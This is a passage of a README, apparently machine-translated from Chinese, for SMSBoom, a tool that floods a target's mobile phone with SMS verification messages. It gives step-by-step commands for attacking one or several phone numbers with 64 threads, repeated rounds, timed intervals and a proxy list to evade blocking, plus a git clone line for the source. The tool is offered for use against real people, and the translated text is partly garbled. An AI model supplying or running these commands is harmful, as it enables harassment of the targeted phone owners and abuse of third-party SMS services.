    3. After confirming that the cmd path is the path where the EXE is located, enter cmd: `smsboom_pyinstall.exe`, if a command prompt appears, the script is running normally.
   ![](https://cdn.jsdelivr.net/gh/AdminWhaleFall/SMSBoom@master/img/cmd2.png)

   4. The latest interface must be updated before use
    ```shell
    smsboom_pyinstall.exe update
    ````
    > If there is an error `ssl_` in the update interface, please refer to [issue](https://github.com/AdminWhaleFall/SMSBoom/issues/2) **Close the agent software** and then update.

   5. [Description of proxy settings](https://github.com/WhaleFell/SMSBoom#%E4%BD%BF%E7%94%A8%E4%BB%A3%E7%90%86), Xiaobai Can not watch for now

   6. Pass parameters, command example:

   Start 64 threads, Boom//Bomb a person's mobile phone number (198xxxxxxxx), only Boom//Bomb once.
   
   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx
   ````

   Start 64 threads, bomb // bomb a person's mobile phone number (19xxxxxxx), start a loop bomb // bomb, take turns bomb // bomb 60 times

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60
   ````
   
   Start 64 threads, bomb // bomb a person's mobile phone number (19xxxxxxx), start a loop bomb // bomb, take turns bomb // bomb 60 times, each time interval 30 seconds

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30
   ````
   
   Start 64 threads, bomb//bomb a person's mobile phone number (19xxxxxxx), start a cycle of bombing//bombing, take turns bombing//bombing 60 times, every 30 seconds, open the proxy list for bombing

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30 -e
   ````

   Start 64 threads, bomb//bomb multiple people's mobile phone numbers (138xxx, 139xxxx), start a loop bomb//bomb, take turns bombing 60 times, every 30 seconds, open the proxy list for bombing

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 138xxxxxxxx -p 139xxxxxxxx -f 60 -i 30 -e
   ````


### For Big Guys

#### Download project

- Method 1: Using Git:

```shell
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
````
